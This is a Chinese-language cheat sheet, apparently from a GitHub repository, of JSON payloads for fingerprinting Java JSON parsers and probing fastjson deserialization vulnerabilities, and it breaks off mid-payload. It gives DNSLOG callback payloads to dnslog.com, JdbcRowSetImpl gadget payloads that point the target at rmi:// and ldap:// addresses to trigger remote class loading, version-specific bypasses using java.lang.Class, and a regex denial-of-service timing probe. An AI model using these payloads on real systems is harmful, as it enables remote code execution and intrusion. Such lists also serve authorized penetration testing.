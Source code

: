 ## 鉴别
### DNSLOG
```json
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
```

```json
{{"@type":"java.net.URL","val":"http://dnslog.com"}:"a"}
```

### 报错解析
```json
{"@type":"whatever"}
```

### 鉴别org.json
```json
{a:'\r'}
```

### 鉴别gson
#### 浮点类型精度丢失
```json
{a:1.111111111111111111111111111}
```

#### 注释符
```json
#\r\n{a:1}
```

### 鉴别jackson
#### 浮点类型精度丢失
```json
{a:1.111111111111111111111111111}
```
#### 注释符
```json
{a:1}/*#aaaa
```
#### 多余的类成员
```json
{"name":"a","age":18}
```

## 探测
### 延迟探测
#### fastjson 1.1.15-1.2.24  
```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/badClassName", "autoCommit":true}
```json
通用payload,用于parseObject</br> 
`{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:8088/badClassName", "autoCommit":true}}""}`  
#### fastjson 1.2.9-1.2.47
```json
    {
        "a":{
            "@type":"java.lang.Class",
            "val":"com.sun.rowset.JdbcRowSetImpl"
        },
        "b":{
            "@type":"com.sun.rowset.JdbcRowSetImpl",
            "dataSourceName":"ldap://localhost:808/badNameClass",
            "autoCommit":true
        }
    }
```
通用payload,可用于parseObject

```json
{"@type":"com.alibaba.fastjson.JSONObject",{
        "a":{
            "@type":"java.lang.Class",
            "val":"com.sun.rowset.JdbcRowSetImpl"
        },
        "b":{
            "@type":"com.sun.rowset.JdbcRowSetImpl",
            "dataSourceName":"ldap://localhost:8088/badNameClass",
            "autoCommit":true
        }
    }}""}
```


#### Fastjson 1.2.36 - 1.2.62
利用正则dos洞，进行探测。逐步加a,直到延迟为止  
    {
        "regex":{
            "$ref":"$[blue rlike '^[a-zA-Z]+(([a-zA-Z ])?[a-zA-Z]*)*$']"
        },
        "blue":"aaaaaaaaaaaa!"
    }
#### 异常回显
    {
        "@type": "java.lang.AutoCloseable"
